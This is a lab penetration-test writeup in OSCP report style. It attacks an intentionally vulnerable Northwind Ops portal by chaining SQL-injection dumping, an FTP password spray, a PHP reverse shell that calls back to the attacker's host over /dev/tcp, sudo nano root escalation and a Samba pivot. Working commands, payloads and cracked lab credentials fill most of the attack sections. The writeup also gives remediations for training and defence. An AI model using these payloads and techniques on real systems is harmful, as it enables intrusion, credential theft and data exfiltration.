# Cycle-8 PenTest writeup — `v1.5.0` (Northwind Intake)

**Classification:** CONFIDENTIAL — INTERNAL LAB / TRAINING  
**Status:** Red complete — writeup frozen  
**Archive:** `ctf/v1.5.0`  
**Style:** OSCP+ exam-report + industry finding fields (standalone only — **no AD chapter**)  
**Methodology:** PTES-aligned; web testing informed by OWASP WSTG v4.2; findings mapped to **OWASP Top 10:2025**  
**Template:** Portfolio `exams/oscp/report/skeleton.md`  
**Evidence:** [screenshots/](screenshots/)

---

# Cover

| Field | Value |
| ----- | ----- |
| Engagement | KC-Project Cycle-8 internal Red assessment |
| Lab / build | tip `v1.5.0` · `docker-compose.cycle8.yml` |
| Target | `Northwind` — `192.168.56.1` (Host-Only from Kali) |
| Tester | Red team (KC-Project Cycle-8) |
| Engagement start | 2026-08-27 |
| Report date | 2026-08-28 |
| Overall risk | **Critical** — full compromise of app tier + internal file share |
| Graded proofs | 5× `OS{` + 32 hex + `}` (F1–F5) |
| Distribution | KC-Project security lane; not for external client release without sanitization |

---

# 1. Introduction

Methodical internal penetration test of the Northwind employee portal / ops intake lab tip (`v1.5.0`). The engagement followed an OSCP+ exam-report structure: enumerate published services, chain vulnerabilities in grading order, recover five `OS{…}` proofs, and document rabbit holes separately.

**Attacker environment:** Kali Linux on VirtualBox Host-Only adapter `192.168.56.10/24`.  
**Target:** Docker Compose tip at `192.168.56.1` (Northwind Ops v1.5.0).  
**Scope exclusions:** Active Directory, Windows client-side payloads, Kerberos — not present in this lab.

Written so a competent reader can reproduce every step from this document, linked screenshots, and raw loot under `~/c8/` on Kali.

---

# 2. Objective

Assess the Cycle-8 insecure tip (`v1.5.0` / `docker-compose.cycle8.yml`). Identify, exploit, escalate, and document findings with remediations aligned to industry practice (severity, CVSS, CWE). Recover five graded proofs. Produce an OSCP-style reproducible attack narrative for training and Blue handoff.

## 2.1 Scope and rules of engagement

### In scope

| Asset | Address / surface | Notes |
| ----- | ----------------- | ----- |
| Northwind portal | `http://192.168.56.1:8080` | Next.js + nginx; Intake API behind `/api/intake/` |
| FTP | `192.168.56.1:21` | vsftpd; anon + authenticated accounts |
| SSH (decoy) | `192.168.56.1:22` | Timeboxed; not graded foothold |
| Internal pivot | `cycle8-samba`, `cycle8-mail` | Reachable only from compromised edge container |
| Attacker | Kali `192.168.56.10/24` | VirtualBox Host-Only |

### Out of scope

- Denial of service or resource exhaustion
- Other lab participants / shared infrastructure outside the tip
- Active Directory, Kerberos, Windows client-side attacks
- Published Postgres on secure (`v2.x`) demos
- Re-breaking Cycle-6/7 controls closed in Blue
- Social engineering of staff
- Physical access

### Rules and constraints

- **Authorization:** Intentional insecure tip on isolated Host-Only network; owner-operated lab
- **Testing window:** 2026-08-27 → 2026-08-28 (multi-session)
- **Goal:** Recover F1–F5; document full chain for remediation (`v2.5.0` Blue)
- **Tooling:** Lab allows sqlmap, Hydra, John per Cycle-8 design — see §8.6 for OSCP exam contrast
- **Evidence:** Screenshots + command transcript; proof files via interactive shell where applicable

### Deliverables

- This report (methodology, findings, proofs, remediations)
- Screenshot index under `screenshots/`
- Blue handoff: prioritized fixes in §4.1 and per-finding remediation in §7

---

# 3. Requirements (self-check)

- [x] High-level summary + recommendations (non-technical)
- [x] Methodology walkthrough
- [x] Each finding: explanation, severity, fix, steps, PoC, screenshots, proofs
- [x] AD attack chain — **N/A** (out of lab scope)
- [x] Appendices: proof table; tool notes; CVSS/CWE; scope/RoE; limitations

---

# 4. High-level summary

Northwind’s employee portal exposed a SQL-injectable intake API and weak FTP credentials. An attacker could dump internal mail-directory hashes, spray FTP for a different password on the same user (`lisa`), upload a web shell into a shared docroot, escalate via misconfigured `sudo nano`, and pivot from the dual-homed edge container to an internal Samba share using mailbox credentials from the dump. All five graded proofs were recovered without AD or a Windows client.

**Overall risk rating: Critical.** An external attacker with network access to the published tip could achieve remote code execution, container root, and exfiltration from an internal file share. The chain combines injection, weak authentication, insecure upload handling, privilege misconfiguration, and missing network segmentation.

### Key findings (business language)

1. **Directory data exposed** — Authenticated search on the Intake API allowed extraction of employee mailbox metadata, password hashes, and operational flags.
2. **Weak service passwords** — FTP accounts used guessable passwords; one account could write into the live web root.
3. **Remote code execution** — Uploaded PHP in `/www/` executed on the application server, yielding an interactive foothold.
4. **Root on application host** — Operations user could run `nano` as root without a password.
5. **Lateral movement to file server** — Compromised app host could reach internal Samba using reused mailbox credentials.

Hosts owned:

**Standalone**

- Target 1 — `Northwind` (`192.168.56.1`) — web → FTP → PHP revshell (`ops`) → root (`nano` GTFO) → internal SMB (`cycle8-samba` / `OpsFiles`)

## 4.1 Recommendations

Priority remediations for a non-technical stakeholder:

### Immediate (0–30 days)

1. **Fix SQL injection** — Parameterize Intake search queries; remove sensitive columns from search responses; rotate DB credentials after fix.
2. **Disable or isolate FTP write to webroot** — Separate upload storage from executable PHP paths; scan/remove `shell.php` and similar artifacts.
3. **Remove NOPASSWD sudo on editors** — Replace with break-glass process (MFA, logging, time-bound elevation).

### Short term (30–90 days)

4. **Enforce unique credentials per system** — Portal, FTP, mailbox, and Samba must not share users/passwords; force rotation after any dump.
5. **Segment internal services** — Samba and mail must not be reachable from the public-facing app container; use dedicated jump hosts or zero-trust policies.
6. **Replace MD5 password storage** — Migrate directory hashes to modern KDFs (bcrypt/Argon2); mandate password managers for service accounts.

### Ongoing

7. **Retire misleading surfaces** — Remove or clearly label decoy SSH (Cowrie) and stale “legacy credential” UI panels in non-production builds.
8. **Retest after Blue `v2.5.0`** — Re-run smoke, journey, and examiner scripts to confirm plants are closed.

Detail and technical steps for each item live under §7 and §8.1.

---

# 5. Findings overview

Severity uses CVSS v3.1 base scores (see §8.7). OWASP categories per [OWASP Top 10:2025](https://owasp.org/Top10/2025/). Findings ordered by exploit chain, then informational items.

| # | Host | Finding | Severity | CVSS 3.1 | CWE | OWASP Top 10:2025 | Business impact |
| - | ---- | ------- | -------- | -------- | --- | ----------------- | --------------- |
| 1 | Northwind `:8080` | SQL injection in `/api/intake/search?q=` (authenticated) | **Critical** | 9.9 `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N` | CWE-89 | **A05:2025** Injection | Full directory dump: usernames, hashes, mailbox passwords, graded flag |
| 2 | Northwind `:21` | Weak FTP password (`lisa`/`peanut`) after user enum | **High** | 8.1 `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | CWE-521, CWE-307 | **A07:2025** Authentication Failures | Authenticated FTP; access to F2 and writable `www/` |
| 3 | Northwind `:8080` / edge | FTP write → PHP execution in `/www/` → reverse shell | **Critical** | 9.9 `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` | CWE-434, CWE-94 | **A06:2025** Insecure Design; **A02:2025** Security Misconfiguration | Remote code execution as `ops`; foothold on app container |
| 4 | Northwind (edge) | `ops` NOPASSWD `sudo /usr/bin/nano` (GTFOBins) | **High** | 8.8 `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` | CWE-269, CWE-250 | **A02:2025** Security Misconfiguration | Full root on edge; pivot hints and internal network access |
| 5 | `cycle8-samba` (internal) | Credential reuse + missing segmentation from edge | **High** | 9.3 `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N` | CWE-1392, CWE-284 | **A01:2025** Broken Access Control; **A07:2025** Authentication Failures | Internal `OpsFiles` exfil (F5) without new vulnerability |
| 6 | Northwind `:22` | Cowrie honeypot / misleading SSH surface | **Info** | — | — | — | Time cost; not graded path |
| 7 | Northwind Intake UI | Decoy “legacy FTP” credentials in authenticated UI | **Low** | — | CWE-200 | **A06:2025** Insecure Design | Analyst time; fails on live FTP |

**Finding count:** 5 exploitable (Critical/High) · 2 informational

---

# 6. Methodologies

Testing followed **PTES** phases: pre-engagement scoping (§2.1) → intelligence gathering → vulnerability analysis → exploitation → post-exploitation → reporting. Web application testing referenced **OWASP Web Security Testing Guide (WSTG)** for authenticated API discovery and injection validation. Findings classified against **OWASP Top 10:2025** ([official list](https://owasp.org/Top10/2025/)).

| Phase | Activities | Tools |
| ----- | ---------- | ----- |
| Recon | Ping, full TCP scan, service fingerprint | nmap |
| Web enum | Manual map, dirbust, DevTools API capture | curl, gobuster, browser |
| Vuln analysis | SQLi confirmation, hash review, spray planning | sqlmap, John |
| Exploitation | FTP spray, upload, revshell, privesc, pivot | Hydra, ftp, socat, smbclient |
| Post-exploit | Loot review, internal enum, proof collection | shell, smbclient |
| Reporting | Findings, CVSS, evidence index | this document |

## 6.1 Information gathering

- Attacker: Kali on Host-Only (`192.168.56.0/24`)
- Target: `192.168.56.1` (hostname **Northwind** per http-title / nmap)
- Tip stack confirmed running in Docker Desktop before remote enum

**Evidence**

- 
- 

## 6.2 Service enumeration

Full TCP SYN + version + default scripts against the tip:

```bash
mkdir -p ~/c8
sudo nmap -sS -sV -sC -p- --min-rate 2000 -oA ~/c8/nmap-full 192.168.56.1
```

### Open ports (lab-relevant)

| IP | TCP | Service (nmap) | Notes |
| -- | --- | -------------- | ----- |
| 192.168.56.1 | 21 | vsftpd 3.0.5 | Anon login allowed; PASV advertised `127.0.0.1` (fix on Docker host before FTP data channel work) |
| 192.168.56.1 | 22 | OpenSSH 9.2p1 Debian | SSH-looking; hostkeys recorded; park early sprays |
| 192.168.56.1 | 8080 | nginx 1.29.1 | Title: **Northwind Ops** |
| 192.168.56.1 | 30000–30009 | tcpwrapped | FTP PASV band (not separate apps) |

**Ignored (host noise):** 27036 (Steam), 53555, 59869.

**Evidence:**  · raw on Kali: `~/c8/nmap-full.*`

## 6.3 Penetration

Chronological attack path (graded flags in **bold**):


```mermaid
flowchart LR
  A[nmap + HTTP map] --> B[**F1** sqlmap Intake]
  B --> C[John joe - miss]
  B --> D[Hydra FTP lisa/peanut]
  D --> E[**F2** FTP flag.txt]
  D --> F[put shell.php → /www/]
  F --> G[**F3** revshell ops]
  G --> H[socat TTY upgrade]
  H --> I[**F4** sudo nano → root]
  I --> J[SMB pivot cycle8-samba]
  J --> K[**F5** proof.txt]
```

### Phase 1 — Web map + F1 (sqlmap)

1. Register portal user `Test` / `Test123123@@@`; capture Bearer JWT from DevTools on `/intake`.
2. Confirm injectable parameter: `GET /api/intake/search?q=flag` returns F1 in JSON.
3. Run sqlmap with auth header → enumerate `public` schema → dump `mail_users`.
4. Build `users.txt` from usernames; attempt John on `joe` hash (no crack).

```bash
# Quick UI proof (browser or curl with session cookie / Bearer)
curl -sS 'http://192.168.56.1:8080/api/intake/search?q=flag' \
  -H 'Authorization: Bearer <JWT>' | jq .

# sqlmap — save request from Burp or repeat with --headers
sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch --level=3 --risk=2

sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch -D public --tables

sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch -D public -T mail_users --dump
```

```bash
# John on uncracked joe (timeboxed — no result)
echo '5e884898da28047151d0e56f8dc62927' > ~/c8/joe.hash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt ~/c8/joe.hash
# No password cracked (0g 0:00:xx:xx DONE)
```

**F1:** `OS{0036b6ceb86445a4c8dce300e4205c43}` (UI `q=flag` and `ops_flag` row `notes` — same value).

### Phase 2 — F2 + webroot (Hydra FTP)

Mail-dump cleartexts do **not** work on FTP (`lisa`/`sunshine` → `530`). Spray with Hydra:

```bash
# users.txt = usernames from sqlmap dump (one per line)
hydra -L ~/c8/users.txt -P /usr/share/wordlists/rockyou-50k.txt \
  ftp://192.168.56.1 -t 4 -f -V
# [21][ftp] host: 192.168.56.1   login: lisa   password: peanut
```

```bash
ftp 192.168.56.1
# Name: lisa  Password: peanut
ftp> ls
# flag.txt  www
ftp> get flag.txt
ftp> cd www
ftp> ls
# index.php
```

**F2:** `OS{4af4a36815ce627e5d3eba01b57e9376}` in `/flag.txt`.

Writable `www/` is the same tree nginx serves at `http://192.168.56.1:8080/www/` (confirmed with harmless `test.txt` upload).

### Phase 3 — F3 (PHP reverse shell)

```bash
# Kali — craft payload (adjust IP/port)
cat > ~/c8/shell.php <<'EOF'
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>
EOF

# Kali — listener (tab 1); socat preferred for later upgrade
socat file:`tty`,raw,echo=0 tcp-listen:4444

# FTP upload
ftp 192.168.56.1
# lisa / peanut → cd www → put shell.php

# Trigger (504/timeout normal if shell blocks PHP worker)
curl -sS http://192.168.56.1:8080/www/shell.php
```

On callback:

```bash
id
# uid=1000(ops) gid=1000(ops) groups=1000(ops)
hostname
# 1bfed6e4e00a
cat /home/ops/user.txt
# OS{e0af60da9c8aa1daa4a79f2cb95478d2}
ip a
# eth0 172.21.0.2/16  eth1 172.18.0.4/16
```

**F3:** `OS{e0af60da9c8aa1daa4a79f2cb95478d2}`.

### Phase 4 — F4 (sudo nano + TTY upgrade)

Raw callback fails interactive sudo:

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/nano
sudo nano
# Standard input is not a terminal
```

Two-hop socat upgrade (see §7.1.6 for full command transcript). After upgrade:

```bash
sudo -l
sudo nano
# In nano: Ctrl+R, Ctrl+X, enter: reset; bash 1>&0 0>&1
id
# uid=0(root) gid=0(root)
cat /root/root.txt
# OS{44d562a5ae240a23b8bbf1c21c605fc3}
cat /root/samba-hint.txt
```

**F4:** `OS{44d562a5ae240a23b8bbf1c21c605fc3}`.

### Phase 5 — F5 (internal Samba pivot)

From root on edge: `ping cycle8-samba` → `172.18.0.2`. Install client, reuse mailbox creds:

```bash
apk add --no-cache samba-client
smbclient -L //cycle8-samba -U 'lisa%sunshine'
smbclient //cycle8-samba/OpsFiles -U 'lisa%sunshine' -c 'get proof.txt'
cat proof.txt
# OS{d310a0605d95303aa114d707b7686f76}
```

**F5:** `OS{d310a0605d95303aa114d707b7686f76}`. Kali cannot reach Samba directly (internal bridge only).

### Rabbit holes (documented, not graded)

| Surface | Attempt | Result |
| ------- | ------- | ------ |
| SSH `:22` | Hydra `users.txt` + rockyou | Hit `sarah`/`password` → thin `svr04` session (Cowrie-style); parked |
| Intake legacy panel | `admin`/`NorthwindAdmin!` on FTP | `530 Login incorrect` |
| Mail `cycle8-mail` | Hint in `samba-hint.txt` | Not required for F5; SMTP/IMAP not on tip-facing nmap |

## 6.4 Maintaining access

No persistence planted for the engagement window. Access was re-established on demand via:

- Re-upload `shell.php` over FTP (if removed)
- Re-trigger `curl http://192.168.56.1:8080/www/shell.php` with listener up
- Samba proof re-downloadable while edge root + internal network remain compromised

Documented listeners only: `socat` on Kali `:4444` / `:4446`; `python3 -m http.server 8888` to stage static `socat` binary.

## 6.5 House cleaning

Before lab teardown / Blue cycle, remove artifacts from the tip:

| Artifact | Location | Action |
| -------- | -------- | ------ |
| `shell.php` | FTP `www/` / `/var/www/html` | `delete shell.php` via FTP or `rm` from shell |
| `/tmp/socat` | edge container | `rm -f /tmp/socat` |
| `proof.txt` | edge `/tmp` (if copied) | `rm -f proof.txt` |
| Portal test user | Northwind UI | Optional: delete `Test` account or reset DB volume |
| Kali loot | `~/c8/` | Retain for report; not on target |

No cron, SSH keys, or backdoor users were added.

---

# 7. Independent challenge — Target 1

## Target #1 — `Northwind` — `192.168.56.1`

Full chronological narrative: §6.3. Per-finding OSCP fields below mirror grading order (F1 → F2 → F3 → F4 → F5).

### 7.1.1 Service enumeration

See §6.2. HTTP and anon FTP opened as follows.

| Surface | Status | Notes |
| ------- | ------ | ----- |
| HTTP :8080 | Mapped (auth + app) | Registered `Test`; nav: Files, **Intake**, Notes, Preview, Ops, Sharing |
| FTP :21 anon | Mapped (loot) | `pub/README.txt` only — partner drop empty; staff use directory account |
| SSH :22 | Parked | Creds later; timebox early sprays |

#### HTTP — Northwind Ops

```bash
curl -sS -D- http://192.168.56.1:8080/ -o /tmp/nw-home.html | head -n 40
# Browser: http://192.168.56.1:8080/
```

Observations:

- nginx fronting Next.js; product face **Northwind Ops v1.5.0**
- Self-registered: `Test` / `test@test.lab` / `Test123123@@@` → session as **Test (user)**
- App map (auth’d): `/files` empty; `/notes` `/preview` `/sharing` look like normal product UI — parked for blind probing
- **`/intake`:** staff/mailbox search + “Legacy service accounts” panel (see cred ledger)
- **`/ops`:** path-based handbook viewer; `handbook.txt` loads; narrative: *do not share passwords on FTP*

**Evidence:**  ·  ·  ·  ·  ·  · 

#### FTP — anonymous

```bash
ftp 192.168.56.1
# anonymous → cd pub → ls → get README.txt
```

`pub/README.txt` (111 B):

```text
Northwind Ops FTP
================
Anonymous drop for partner docs (empty).
Staff: use your directory account.
```

Takeaway: anon is intentionally empty; real FTP = directory accounts (spray later). No flag / no live staff password gifted here.

**Evidence:**  ·  · 

#### Credential ledger (unverified)

| Source | Identity | Secret | Claimed use | Status |
| ------ | -------- | ------ | ----------- | ------ |
| Self-reg | `Test` | `Test123123@@@` | Portal UI | Works (session + Bearer JWT) |
| Intake → Load directory | `admin` | `NorthwindAdmin!` | legacy-ftp / staged cutover | **FTP `530`** — false path (see ) |
| Intake → Load directory | `nwops` | `ChangeMeBeforeProd` | smtp-relay deprecated | Parked (no SMTP on tip enum yet) |
| Ops handbook | — | — | Don’t put passwords on FTP | Narrative |

#### Loot — `public.mail_users` (sqlmap dump)

Cleartexts below are **sqlmap dictionary cracks of `password_hash`** (MD5-looking). Not proven on FTP/SSH/SMTP until tested. Notes column preserved.

| username | email | department | cracked / hash | notes |
| -------- | ----- | ---------- | -------------- | ----- |
| sarah | sarah@northwind.ops | HR | `password` | bcrypt-placeholder-noise |
| nick | nick@northwind.ops | Sales | `123456` | |
| paul | paul@northwind.ops | IT | `12345678` | |
| linda | linda@northwind.ops | Finance | `test` | |
| joe | joe@northwind.ops | Ops | **uncracked** `5e884898da28047151d0e56f8dc62927` | John candidate |
| lisa | lisa@northwind.ops | Ops | `sunshine` | mailbox auth - lab weak |
| nwops | nwops@northwind.ops | Ops | `qwerty` | |
| svc_backup | backup@northwind.ops | IT | `111111` | |
| ceo | ceo@northwind.ops | Exec | `pass` | |
| aprice | aprice@northwind.ops | Legal | `654321` | |
| mjones | mjones@northwind.ops | HR | `a` | |
| rlee | rlee@northwind.ops | Sales | `b` | |
| tkim | tkim@northwind.ops | IT | `c` | |
| admin | admin@northwind.ops | IT | `admin` | CYCLE8-DECOY - not SMTP LIVE |
| ops_flag | flag@northwind.ops | Sec | `(null hash)` | **F1** in notes |

**DB flags:** only **one** `OS{…}` in this table (= F1). No second flag in the dump.

**Evidence:**  · 

#### HTTP — Intake API (Hint 1)

```text
GET /api/intake/search?q=<query>
Authorization: Bearer <JWT>
→ application/json
```

Discovered via DevTools on `/intake` Search. Light directory brute-force:

```bash
gobuster dir -u http://192.168.56.1:8080 \
  -w /usr/share/wordlists/dirb/common.txt -t 40 -q
# /files /notes /preview /sharing /intake /ops /admin /moderator — mostly SPA shells
curl -sS -o /dev/null -w '%{http_code}\n' http://192.168.56.1:8080/www/
# 301
```

`/www` returns **301** during early enum (content appears after FTP write path is understood).

**Evidence:**  ·  · 

### 7.1.2 Exploitation — SQL injection / Intake directory (F1)

| Field | Content |
| ----- | ------- |
| Vulnerability exploited | SQL injection in `q` parameter on authenticated Intake search API |
| Severity | Critical |
| CVSS 3.1 | **9.9** — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N` |
| CWE | [CWE-89](https://cwe.mitre.org/data/definitions/89.html) — Improper Neutralization of SQL Commands |
| OWASP | **A05:2025** Injection; **A04:2025** Cryptographic Failures (MD5 hashes in `mail_users`) |
| Affected asset | `http://192.168.56.1:8080/api/intake/search` |
| Business impact | Attacker with any valid portal session can extract the full `mail_users` table including password hashes and operational flags — enables credential attacks against other services |
| Vulnerability explanation | User-supplied `q` is concatenated into a PostgreSQL query; UNION-based extraction exposes `public.mail_users` |
| Vulnerability fix | Parameterized queries / ORM; least-privilege DB role; remove sensitive columns from search surface; WAF only as defense-in-depth |
| Steps to reproduce | Register → JWT → `q=flag` or sqlmap with `--headers` → dump `mail_users` |
| Proof of concept | F1 in UI JSON and `ops_flag.notes`; full user/hash table via sqlmap |
| Evidence | `041`, `050`, `051` |

**UI confirmation (fast F1):**

```bash
curl -sS 'http://192.168.56.1:8080/api/intake/search?q=flag' \
  -H 'Authorization: Bearer <JWT>'
# ... "notes":"OS{0036b6ceb86445a4c8dce300e4205c43}" ...
```

**sqlmap (full loot):**

```bash
sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch --level=3 --risk=2

sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch --dbs
# available databases [1]: public

sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch -D public --tables
# mail_users

sqlmap -u 'http://192.168.56.1:8080/api/intake/search?q=test' \
  --headers='Authorization: Bearer <JWT>' \
  --batch -D public -T mail_users --dump
```

**John (timeboxed — `joe` only):**

```bash
echo '5e884898da28047151d0e56f8dc62927' > ~/c8/joe.hash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt ~/c8/joe.hash
# 0 password hashes cracked
```

**Proof (F1)**

- Location: `public.mail_users` row `ops_flag` / UI search `q=flag`
- Value: `OS{0036b6ceb86445a4c8dce300e4205c43}`
- Evidence:  ·  · 

**Post-dump:** Export usernames to `~/c8/users.txt` for Hydra. Mail cleartexts (e.g. `lisa`/`sunshine`) are **not** FTP passwords — see §7.1.3.

### 7.1.3 Exploitation — Weak FTP credentials (F2)

| Field | Content |
| ----- | ------- |
| Vulnerability exploited | Weak password on FTP service account after user enumeration from DB dump |
| Severity | High |
| CVSS 3.1 | **8.1** — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` |
| CWE | [CWE-521](https://cwe.mitre.org/data/definitions/521.html) Weak Password Requirements; [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Improper Restriction of Excessive Authentication Attempts |
| OWASP | **A07:2025** Authentication Failures |
| Affected asset | `ftp://192.168.56.1:21` — account `lisa` |
| Business impact | Authenticated FTP access to sensitive files (F2) and writable web-served directory — enables follow-on RCE (Finding #3) |
| Vulnerability explanation | `lisa` FTP password `peanut` is in rockyou-top lists; distinct from mailbox `sunshine` forces Hydra rather than dump-only reuse |
| Vulnerability fix | Strong unique passwords; account lockout / rate-limit FTP auth; disable FTP where SFTP suffices; monitor brute-force |
| Steps to reproduce | `users.txt` from sqlmap → Hydra rockyou-50k → login → `get flag.txt` |
| Proof of concept | F2 at FTP root; `www/` writable |
| Evidence | `060`, `070`–`075` |

**Spray matrix:**

| Attempt | Command / cred | Result |
| ------- | -------------- | ------ |
| Mail clears on FTP | `lisa` / `sunshine` | `530 Login incorrect` |
| sqlmap users × rockyou clears | Hydra `-L users.txt -P clears.txt` | No hit |
| sqlmap users × rockyou-50k | Hydra below | **Hit `lisa` / `peanut`** |

```bash
hydra -L ~/c8/users.txt -P /usr/share/wordlists/rockyou-50k.txt \
  ftp://192.168.56.1 -t 4 -f -V
# [21][ftp] host: 192.168.56.1   login: lisa   password: peanut
```

```bash
ftp 192.168.56.1
# Name: lisa  Password: peanut
ftp> ls
# 229 Entering Extended Passive Mode (|||30000|)
# 150 Here comes the directory listing.
# -rw-r--r--    1 0        0              37 Aug 27 15:41 flag.txt
# drwxr-xr-x    2 1000     1000         4096 Aug 28 14:00 www
ftp> get flag.txt
ftp> bye

cat flag.txt
# OS{4af4a36815ce627e5d3eba01b57e9376}
```

**Webroot write proof:**

```bash
ftp> cd www
ftp> put /tmp/test.txt
# curl confirms: http://192.168.56.1:8080/www/test.txt
```

**Proof (F2)**

- Location: FTP `/flag.txt` (authenticated `lisa`)
- Value: `OS{4af4a36815ce627e5d3eba01b57e9376}`
- Evidence:  ·  ·  ·  ·  · 

### 7.1.4 Initial access — FTP www write → PHP reverse shell (F3)

| Field | Content |
| ----- | ------- |
| Vulnerability exploited | Authenticated FTP write into web-served docroot + PHP `exec` |
| Severity | Critical |
| CVSS 3.1 | **9.9** — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| CWE | [CWE-434](https://cwe.mitre.org/data/definitions/434.html) Unrestricted Upload; [CWE-94](https://cwe.mitre.org/data/definitions/94.html) Improper Control of Generation of Code |
| OWASP | **A06:2025** Insecure Design (FTP docroot overlap); **A02:2025** Security Misconfiguration; **A08:2025** Software or Data Integrity Failures (untrusted upload executed) |
| Affected asset | `http://192.168.56.1:8080/www/` (edge container, user `ops`) |
| Business impact | Full interactive foothold on application infrastructure; base for privilege escalation and lateral movement |
| Vulnerability explanation | `lisa` can upload into `www/` which nginx serves as `/www/`; PHP executes uploaded code |
| Vulnerability fix | Separate FTP tree from executable docroot; disable dangerous PHP functions (`exec`, `system`); content-type validation; least privilege on FTP accounts |
| Steps to reproduce | Hydra `lisa`/`peanut` → `put shell.php` → listener → `curl /www/shell.php` |
| Proof of concept | Reverse shell as `ops` |
| Evidence | `076`–`082` |

**Payload + upload:**

```bash
cat > ~/c8/shell.php <<'EOF'
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>
EOF

# Kali listener (tab 1)
socat file:`tty`,raw,echo=0 tcp-listen:4444

ftp 192.168.56.1
# lisa / peanut → cd www → put ~/c8/shell.php

curl -sS http://192.168.56.1:8080/www/shell.php
# may hang or return 504 Gateway Time-out — shell still callbacks
```

**On callback:**

```bash
whoami && id
# ops  uid=1000(ops) gid=1000(ops) groups=1000(ops)
cat /home/ops/user.txt
# OS{e0af60da9c8aa1daa4a79f2cb95478d2}
ip -4 addr show
# inet 172.21.0.2/16 scope global eth0
# inet 172.18.0.4/16 scope global eth1
```

**Proof (user / F3)**

- Path: `/home/ops/user.txt`
- Contents: `OS{e0af60da9c8aa1daa4a79f2cb95478d2}`
- **OSCP-style capture command** (interactive shell; flag + addressing in one session):
  ```bash
  cat /home/ops/user.txt; ip -4 addr show; hostname
  ```
- Screenshot:  · shell 
- Dual-home note (for pivot): `172.21.0.2/16` + `172.18.0.4/16` — 

**Evidence (upload/trigger):**  ·  ·  ·  · 

### 7.1.5 Privilege escalation — sudo nano (NOPASSWD) (F4)

| Field | Content |
| ----- | ------- |
| Vulnerability exploited | `ops` may run `/usr/bin/nano` as root without password |
| Severity | High |
| CVSS 3.1 | **8.8** — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| CWE | [CWE-269](https://cwe.mitre.org/data/definitions/269.html) Improper Privilege Management; [CWE-250](https://cwe.mitre.org/data/definitions/250.html) Execution with Unnecessary Privileges |
| OWASP | **A02:2025** Security Misconfiguration (NOPASSWD sudo) |
| Affected asset | Edge container — local `sudoers` for user `ops` |
| Business impact | Full root on application host; access to `/root` hints enabling lateral movement to internal file services |
| Vulnerability explanation | Misconfigured sudo + GTFOBins (`Ctrl+R` `Ctrl+X` command exec) |
| Vulnerability fix | Remove NOPASSWD nano; use `sudoers` least privilege; prefer `sudoedit` with allowlists or configuration management |
| Steps to reproduce | F3 shell → `sudo -l` → TTY upgrade → `sudo nano` → GTFO shell |
| Proof of concept | Root `#` via nano |
| Evidence | `083`–`086`, `090`, `106`–`111` |

**Enumeration:**

```bash
sudo -l
# User ops may run the following commands on 1bfed6e4e00a:
#     (root) NOPASSWD: /usr/bin/nano
```

Without TTY upgrade, `sudo nano` errors with *Standard input is not a terminal*. Full socat two-hop sequence: §7.1.6 (shell upgrade subsection).

**GTFOBins — nano:**

```bash
sudo nano
# Press: Ctrl+R  then  Ctrl+X
# At "Command to execute:" prompt, enter:
reset; bash 1>&0 0>&1
# Press Enter — root shell

id && hostname
# uid=0(root) gid=0(root)
cat /root/root.txt
# OS{44d562a5ae240a23b8bbf1c21c605fc3}
```

**Proof (root / F4)**

- Path: `/root/root.txt`
- Contents: `OS{44d562a5ae240a23b8bbf1c21c605fc3}`
- **OSCP-style capture command** (root interactive shell):
  ```bash
  cat /root/root.txt; ip -4 addr show; id
  ```
- Screenshot:  ·  · 

**Shell upgrade (required before nano):** PHP/`nc` callback insufficient. Two-hop `socat`: Kali `:4444` (PHP) → target `/tmp/socat` → Kali `:4446` (TTY). Evidence: `085`–`086`, `106`–`111`.

### 7.1.6 Post-exploitation / pivot — internal Samba (F5)

| Field | Content |
| ----- | ------- |
| Vulnerability exploited | Credential reuse (mailbox `lisa`/`sunshine` on SMB) + flat internal network from compromised edge |
| Severity | High |
| CVSS 3.1 | **9.3** — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N` |
| CWE | [CWE-1392](https://cwe.mitre.org/data/definitions/1392.html) Use of Default Password; [CWE-284](https://cwe.mitre.org/data/definitions/284.html) Improper Access Control |
| OWASP | **A01:2025** Broken Access Control (network segmentation); **A07:2025** Authentication Failures (credential reuse) |
| Affected asset | `//cycle8-samba/OpsFiles` (internal `172.18.0.2`) |
| Business impact | Confidential file-share data (`proof.txt` / F5) exfiltrated from internal ops drop without additional exploit |
| Vulnerability explanation | Samba share reachable from edge container; mailbox creds from Intake dump authenticate to SMB; no network segmentation |
| Vulnerability fix | Segment internal services; unique passwords per system; restrict Samba to dedicated jump hosts; disable legacy SMB auth where possible |
| Steps to reproduce | Root on edge → `samba-hint.txt` → `apk add samba-client` → `smbclient -c 'get proof.txt'` |
| Proof of concept | `proof.txt` on `OpsFiles` share |
| Evidence | `091`–`094`, `100`–`113` |

